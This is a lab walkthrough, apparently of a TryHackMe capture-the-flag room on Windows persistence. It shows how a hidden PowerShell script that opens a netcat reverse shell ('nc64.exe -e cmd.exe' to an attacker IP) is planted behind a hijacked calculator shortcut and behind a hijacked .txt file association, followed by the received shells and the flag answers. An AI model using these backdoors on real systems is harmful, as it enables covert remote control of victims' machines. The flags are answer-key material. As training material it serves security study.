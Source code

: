 # Shortcut Files
1. Started up this room's machine
2. Opened up the compromised Windows machine's calculator properties

![]()

![]()

3. `PowerShell`
```PowerShell
```
4. `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
5. `$scriptContent = @"`
6. `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
7. `C:\Windows\System32\calc.exe`
8. `"@` 
9. `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.210.65 9999"
>> C:\Windows\System32\calc.exe
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
>>
```
5. Change the calculator's icon and shortcut properties to 'powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT NAME>.ps1'

![]()

![]()

6. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
7. Click on the calculator

![]()

```Bash
root@ip-10-10-210-65:~# nc -lnvp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.105.224 49982 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
```
8. `C:\flags\flag5.exe`
```PowerShell
C:\Windows\system32>C:\flags\flag5.exe
C:\flags\flag5.exe
THM{NO_SHORTCUTS_IN_LIFE}
```


**TASK COMPLETED**

# Hijacking File Associations
1. Started this room's machine
2. `regedit`
```PowerShell
C:\Users\Administrator>regedit
```

![]()

![]()

![]()

![]()

3. `PowerShell`
```PowerShell
C:\Users\Administrator>PowerShell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\Administrator>
```
4. `$scriptPath = 'C:\Windows\System32\<SCRIPT NAME>.ps1'`
5. `$scriptContent = @"`
6. `Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe <MACHINE IP> <PORT NUMBER>"`
7. `C:\Windows\system32\NOTEPAD.EXE $args[0]`
8. `"@` 
9. `Set-Content -Path $scriptPath -Value $scriptContent`
```PowerShell
PS C:\Users\Administrator> $scriptPath = 'C:\Windows\System32\BackdoorScript.ps1'
>> $scriptContent = @"
>> Start-Process -NoNewWindow "c:\tools\nc64.exe" "-e cmd.exe 10.10.173.81 9999"
>> C:\Windows\system32\NOTEPAD.EXE $args[0]
>> "@
>> Set-Content -Path $scriptPath -Value $scriptContent
PS C:\Users\Administrator>
```
10. Change value data to `powershell.exe -WindowStyle hidden C:\Windows\System32\<SCRIPT FILE>.ps1 %1`

![]()

![]()

![]()

11. `nc -lvnp <PORT NUMBER>`
```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```

12. Open any text file

![]()

```Bash
root@ip-10-10-173-81:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
Connection from 10.10.141.70 49905 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\Desktop>
```
13. `C:\flags\flag6.exe`
```PowerShell
C:\Users\Administrator\Desktop>C:\flags\flag6.exe
C:\flags\flag6.exe
THM{TXT_FILES_WOULD_NEVER_HURT_YOU}
```


**TASK COMPLETED**
